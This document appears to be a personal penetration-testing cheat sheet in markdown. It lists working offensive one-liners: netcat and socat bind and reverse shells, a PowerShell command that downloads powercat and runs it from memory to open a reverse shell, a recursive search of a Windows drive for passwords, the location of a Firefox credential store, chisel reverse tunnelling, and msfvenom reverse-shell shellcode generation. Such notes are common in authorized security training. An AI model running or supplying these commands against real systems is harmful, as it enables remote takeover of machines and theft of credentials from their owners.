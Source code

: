 # RESOURCES
## buffer overflow
#### x86 cheat sheet
https://cs.brown.edu/courses/cs033/docs/guides/x64_cheatsheet.pdf



# COMMANDS
## netcat
#### file transfer
target machine
`nc -nlvp 9001 > incoming.exe`
local machine
`nc -nv IP.ADDR 9001 < EXAMPLE.exe`
(note: no output, must guess when upload complete)

#### bind shell
target
`nc -lnvp 9001 -e cmd.exe`
local
`nc -nv IP.ADDR 9001`

#### reverse shell
target
`nc -nv IP.ADDR 9001 -e /bin/bash`
local
`nc -lnvp 9001`

## socat
#### connecting
`socat - TCP4:10.11.0.22:110`

#### listener
host
`sudo socat TCP4-LISTEN:443 STDOUT`
local
`socat - TCP4:10.11.0.22:443`

#### file transfer
host
`sudo socat TCP4-LISTEN:443,fork file:EXAMPLE.txt`
local
`socat TCP4:10.11.0.4:443 file:EXAMPLE_NAME.txt,create`

#### reverse shell
local
`sudo socat -d -d TCP4-LISTEN:443 STDOUT`
target
`socat TCP4:10.11.0.22:443 EXEC:/bin/bash`

#### encrypted bind shells
create self-signed certificate
`openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt`
##windows
## one-liners
#### dir and file
list all files current dir
`get-childitem -hidden` 

search C:\ for password
`ci -recurse C:\ | % { select-string -path $_ -pattern password} 2>$null`

base64
`certutil -encone/-decode <FILE> <OUTFILE>`

copy contents of file to clipboard
`Get-Content <FILENAME> | Set-Clipboard`
#### network file transfers
smb setup on nix
`$ sudo ./smbserver.py tools $(pwd) -smb2support -user dials -password password1`

create cred object
```
> $pass = convertto-securestring 'password1' -AsPlainText -Force`
> $cred = New-Object System.Management.Automation.PSCredential('dials', $pass)
> New-PSDrive -Name dials -PSProvider FileSystem -Credential $cred -Root \\10.10.14.52\tools
cd dials:
```

download file
`(New-Object System.Net.Webclient).DownloadFile("http://<IP>:<PORT>/<FILENAME>.exe","C:\<FILENAME>.exe")`

download a file and execute from memory with powercat
`IEX(New-Object System.Net.Webclient).DownloadString('http://10.1.1.1:8000/powercat.ps1');powercat -c 10.1.1.1 -p 8001 -e powershell.exe`

### smb
localhost
`sudo ./smbserver.py tools $(pwd) -smb2support -user dials -password password1

``` 
$pass = convertto-securestring 'password1' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('dials', $pass)
New-PSDrive -Name dials -PSProvider FileSystem -Credential $cred -Root \\10.10.14.52\tools
cd dials:
```

### credentials
```
C:\Users\clara\AppData\Roaming\Mozilla\Firefox\Profiles\ljftf853.default-release\key4.db
```
sharpweb?
python cracker?

### file transfer



### chisel
\*nix local
`./chisel server --reverse -p 9001`

win remote
`./chisel.exe client <IP.ADDR>:9001 R:<PORT_TO_FWD>:LOCALHOST:<PORT_TO_FWD>`



### msfvenom
generate shellcode, filtering out bad characters
`msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"`

